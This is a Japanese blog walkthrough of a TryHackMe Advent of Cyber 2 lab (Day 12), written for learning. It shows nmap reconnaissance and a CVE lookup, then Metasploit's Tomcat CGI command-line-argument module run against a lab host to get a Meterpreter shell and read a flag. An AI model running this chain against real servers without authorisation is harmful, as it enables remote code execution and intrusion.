 ```yaml
---
title: "【THM: TryHackMe】Advent of Cyber 2を解いてみた【Day12】"
date: 2022-02-19T11:37:14+09:00
description:
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- TryHackMe
- WriteUP
categories:
- WriteUP
series:
- Advent of Cyber 2
image: /posts/2021/08/img/advent-of-cyber-2-thumbnail.png
---
```


## はじめに

今回はWebサーバーで用いられているミドルウェアのバージョン情報から既知の脆弱性を探し、そこからWebサーバー内の情報を奪取する章になります。

{{< notice warning "警告" >}}
本記事はすべてのセキュリティに携わる人に向けて執筆しており、クラッキングを推奨するものではありません。本記事の手法を用いて、許可された環境以外で実行することは絶対にやめてください。
{{< /notice >}}

## Ready, set, elf.

### What is the version number of the web server?

> Webサーバーのバージョン番号は何ですか？

まずはnmapを使って、開いているポートを調べます。

```bash
$ nmap -Pn 10.10.XX.XX
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-19 11:55 JST
Nmap scan report for 10.10.XX.XX
Host is up (0.30s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

4つのポートが開いていることが確認できます。

8080ポートにブラウザからアクセスすると、Apache Tomcatが用いられていることが確認できます。

そのバージョン番号を回答して終了です。

### What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

> このマシンにMeterpreterのエントリーを作成するために使用できるCVEは何ですか？

最初にTomcatのバージョンが分かったので、既知の脆弱性がないか調査します。

調査方法はなんでもいいですが、ここではAttackerKBを使って軽く調べてみます。

{{< blogcard title="AttackerKB," url="https://attackerkb.com/" >}}

Tomcatのバージョンを検索して見ると、それっぽいCVEが発見できるので、そのCVE番号を入力して終了です。

### What are the contents of flag1.txt

> flag1.txtの内容は何ですか

今回の問題では文章中に「Metasploit Frameworkを適切に設定し」とあるので、Metasploit Frameworkを使っていきます。

Metasploit Frameworkの使い方に慣れていない人は、TryHackMeのこちらのRoomを先に終わらせることで、大体の使い方を学べます。

{{< blogcard title="Metasploit" url="https://tryhackme.com/room/rpmetasploit" >}}

まずはMetasploitを起動して、CVE検索をします。

```bash
$ msfconsole

...

msf6 > search cve-XXXX-XXXX
```

該当するものが一つ出てくるので、それを使います。
Search結果の番号でも指定できます。

```bash
msf6 > use 0
```

設定をするために、infoを見て何を設定しなければいけないか確認します。

```bash
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > info
```

今回は、「RHOSTS」と「TARGETURI」を設定します。
TARGETURIに含まれているCGIスクリプトは、本文中に記述されています。

```bash
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set RHOSTS 10.10.XX.XX
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set TARGETURI /cgi-bin/elfwhacker.bat
```

設定ができたら、infoを確認し適切に設定できているかを確認した後、exploitしていきます。

```bash
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit
```

これでWebサーバーのリモートコード実行が可能になったため、flag1.txtの中身を確認して終了です。

```bash
meterpreter > ls
meterpreter > cat flag1.txt
```

## おわりに

今回はWebサーバーのバージョン情報から既知の脆弱性を調査して、そこからリモートコード実行しました。

Metasploit Frameworkを使えば難しいことを考えずにコマンドを打っていくだけでRCEできてしまいます。

Webアプリケーション開発者などは、Webサーバー内部のミドルウェアのバージョン情報が外部から見えないような設定が必要です。
